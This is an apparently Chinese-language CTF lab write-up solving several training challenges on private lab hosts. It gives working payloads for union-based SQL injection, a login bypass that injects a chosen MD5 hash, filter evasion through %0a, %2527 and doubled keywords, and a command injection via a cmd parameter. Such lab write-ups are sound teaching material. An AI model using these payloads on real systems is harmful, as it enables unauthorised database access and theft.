


# http://192.168.100.40:10000/


```sql
//获取数据库名-->ctftraining
-200'union select database() # 
```


```sql
//获取表名-->flag,news,users
-200'union select group_concat(table_name) from information_schema.tables where table_schema=database() #
```




```sql
//获取字段名-->
-200'union select * from flag#
```


```cmd
//最终的flag
ctftraining{0cTob3r_1s_B34ut1ful}
```

# http://192.168.100.40:10001/


```sql
http://192.168.100.40:10001/start/vul.php?cmd=ls%20%3Etomato-sh.txt
```


```sql
//访问获取key
http://192.168.100.40:10001/start/tomato-sh.txt
```


# .http://192.168.100.40:10002/


```cmd
//先随便登录,查看源码
1.发现有两个需要传的POST参数,name对应用户名,password对应密码
2.还有个md5函数对密码进行加密
3.登录时判断密码是否和加密的md5密码相等,如果相等则输出flag
```


```
//到这里说明思路大致正确的,sql语句报错了
//找到md5在线加解密网站,随便输入一个数字:666
//加密后:fae0b27c451c728867a567e8c1bb4e53 -->(32位小写)
```



```sql
//这里需要注意,admin和md5加密部分需要用''引号
//方法1:使用bp抓包
name=1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #&pw=666 

//方法2:直接登录
username: 1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #
password: 666
```


# http://192.168.100.230/sqlexam/examine1.php


```
//根据代码,可以知道union和select不能同时使用所以需要使用%0a间隔开
//'也是无法使用,需要用%2527来替换
id=-1%2527union%0aselect 1,2,3 #
```


### `查看数据库名`

```sql
//传递post参数
id=-1%2527union%0aselect 1,database(),3 #
```


### `查看表名`

```sql
id=-1%2527union%0aselect 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 #
```


### `查看flag表的字段`

```sql
//这里指定表的时候需要注意单引号也需要变成%2527使用
id=-1%2527union%0aselect 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%2527flag%2527),3 #
```


### `获取最终的flag`

```sql
id=-1%2527union%0aselect 1,(select group_concat(Id,flag) from test1.flag),3 #
```


# http://192.168.100.230/sqlexam/examine2.php

### `查看回显点`

```sql
id=-1'uniunionon selselectect 1,2,3 #
```


### `查看数据库名`

```
id=-1'uniunionon selselectect 1,database(),3 #
```


### `查看表名`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(table_name) ffromrom infoorrmation_schema.tables where table_schema=database()),3 #
```


### `获取flag表字段`

```SQL
id=-1'uniunionon selselectect 1,(selselectect group_concat(column_name) ffromrom infoorrmation_schema.columns where table_name='flag'),3 #
```


### `获取flag`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(flag,0x3a,Id) ffromrom test2.flag),3 #
```

